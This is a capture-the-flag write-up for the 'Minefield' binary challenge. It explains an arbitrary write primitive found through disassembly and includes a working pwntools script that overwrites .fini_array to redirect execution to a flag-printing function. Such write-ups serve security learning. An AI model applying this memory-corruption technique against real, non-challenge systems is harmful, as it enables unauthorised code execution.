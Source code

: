 ## Minefield

This binary challenge is compiled with a stack canary and NX. There is no RELRO which means we can overwrite function pointers in the GOT. 

The binary itself is very simple. It prompts the user if they're ready to plant a mine. Selecting No causes the binary to exit. Selecting Yes will prompt the user for a type of mine to use, and a location to plant it in. The user's input is passed to `strtoull()` which converts it into an unsigned long long value. If we examine the disassembly of `mission()`, we see that the "type of mine" is actually an address that "location of mine" is written to. This is effectively a write primitive that allows us to write a value anywhere in memory that's writable: 

```
0x00400ad5      mov     rdx, qword [location_of_mine]
0x00400ad9      mov     rax, qword [type_of_mine]
0x00400add      mov     qword [rax], rdx
```

The first thought was to overwrite a function pointer in the GOT, but there are actually no functions called right after `mission()` returns. If we look at the writable sections reported by Cutter, we see that `.fini_array` is at 0x601078. This location contains a pointer to `__do_global_dtors_aux` which handles destructors. 

```
pwndbg> x/a 0x601078
0x601078:	0x400860 <__do_global_dtors_aux>
```

Functions in `.fini_array` are called by the runtime linker when the program terminates. Since this section is writable, we can overwrite 0x601078 with an address of our choosing and control execution flow right before the binary terminates. 

As it turns out, this binary provides a "win" function that prints the flag. In this case, it's called `_()` at 0x40096b. Exploitation is pretty simple at this point. When asked for the type of mine, we enter 0x601078, and when asked for a location, we enter 0x40096b: 

```
#!/usr/bin/env python3

from pwn import *

context(os="linux", arch="amd64")
elf = context.binary = ELF("minefield")

r = remote("178.62.14.240", 31535)

r.recvuntil("> ")
r.sendline("2")

r.recvuntil(": ")
r.sendline("0x601078")           # .fini_array

r.recvuntil(": ")
r.sendline(str(elf.sym._))       # get_flag function 0x40096b
print(r.recvuntil("}"))
```
